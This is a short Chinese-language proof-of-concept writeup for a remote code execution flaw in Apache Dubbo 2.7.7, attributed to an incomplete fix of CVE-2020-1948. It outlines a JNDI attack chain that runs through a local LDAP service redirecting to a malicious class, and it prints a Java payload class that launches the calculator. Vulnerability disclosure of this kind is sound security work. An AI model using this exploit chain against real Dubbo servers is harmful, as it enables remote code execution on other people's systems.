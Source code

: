 # Dubbo 2.7.7 Remote Code Execute

## 版本号: 2.7.7

## poc使用JNDI的利用方式远程执行代码

## 漏洞描述:

我们发现Dubbo2.7.7存在远程代码执行漏洞，该远程代码执行漏洞是由于在修复CVE-2020-1948时的错误引起。以至于在新版本上依旧存在代码执行的问题。

## 漏洞证明详细：
    在本地新建ldap服务，将请求重定向到http服务的恶意类。
    其中恶意类为本地弹出计算器，Cals.java源码：


```import java.io.IOException;

public class Calc {
    
    public Calc() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    
    public static void main(String[] args) {
        Calc e = new Calc();
    }
    
}
```

